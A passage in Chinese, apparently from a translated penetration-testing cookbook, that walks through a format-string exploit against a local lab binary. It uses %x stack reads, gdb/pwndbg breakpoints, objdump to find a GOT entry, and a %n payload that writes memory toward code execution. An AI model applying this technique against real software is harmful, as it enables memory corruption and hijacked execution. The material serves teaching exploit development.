 ![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-cb/img/00113.jpeg)

这里的第一个测试从堆栈打印一些十六进制值，但第二个将值写入堆栈值指向的内存位置，最终导致分段错误。因此，从测试结果来看，很明显我们可以从 RAM 中读取，也可以向 RAM 中写入。

1.  现在我们可以更改输入并尝试控制参数：

```py
./fmt AAAA.%x.%x.%x.%x    
./fmt BBBB.%x.%x.%x.%x  
```

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-cb/img/00114.jpeg)

我们传递的`AAAA`和`BBBB`字符以十六进制值的形式出现在堆栈的第四个参数上，`AAAA`为`41414141`，`BBBB`为`42424242`。从中可以清楚地看出，我们现在可以控制堆栈上的第四个参数。

1.  由于我们计划控制代码执行，我们需要更改函数的地址。因此，让我们尝试找到一个 RAM 位置进行写入。为此，我们可以使用`pwndbg`查看汇编代码：

```py
gdb ./fmt
disassemble main  
```

这将打印出汇编代码。从中我们可以确定应用程序在`59`上调用`printf@plt`，在`72`上调用`putchar@plt`。因此，我们可以在`59`处设置断点以进行调试：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-cb/img/00115.jpeg)

1.  如我们所知，全局偏移表保存库函数的当前地址。因此，我们可以使用`objdump`查看 GOT 中的条目：

```py
objdump -R ./fmt  
```

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-cb/img/00116.jpeg)

从中我们将得到动态重定位记录中`putchar`的位置。在这里是`08049748`，对您可能是不同的。因此，请确保相应地更新您的脚本。

1.  现在我们可以尝试写入`putchar` PLT 入口。我们可以利用`pwndbg`来做这个。在`pwndbg`中打开应用程序：

```py
gdb ./fmt    
```

1.  在`printf`之前和之后设置第一个断点：

```py
pwndbg> break * main + 59
pwndbg> break * main + 64  
```

1.  然后使用我们的有效载荷运行应用程序，以写入我们从`objdump`中获得的`putchar`的地址位置。在我的情况下是`08049748`。我们必须将地址转换为小端格式，以便与英特尔架构一起使用：

```py
pwndbg> run $'\x48\x97\x04\x08%x%x%x%n'  
```

这将运行到我们的第一个断点，即`printf`之前：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-cb/img/00117.jpeg)
